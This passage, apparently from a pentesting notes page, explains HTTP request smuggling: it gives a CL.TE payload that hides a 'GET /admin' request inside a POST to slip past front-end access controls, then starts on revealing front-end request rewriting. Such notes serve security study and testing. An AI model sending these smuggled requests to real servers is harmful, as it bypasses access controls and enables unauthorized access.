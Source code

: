 `7b` -> all chars from `GET` until `x=`

`Content-Legth: 4` -> `7` `c` `\r` `\n`

{{< hint style=notes >}}
**Note**: Update Content-Length must be unchecked
{{< /hint >}}

## Exploitation

### Bypass front-end security controls

**CL.TE**

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

When you go to `/home`, the following request will be made&#x20;

```http
GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

* The front-end server sees two requests here, both for `/home`, and so the requests are forwarded to the back-end server.&#x20;
* The back-end server sees requests for `/home` and `/admin`, assumes they've passed front-end controls, and grants access to the restricted URL.

### Revealing front-end request rewriting

**CL.TE**

Find a request that reflects the value

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=user@normal-user.net
```

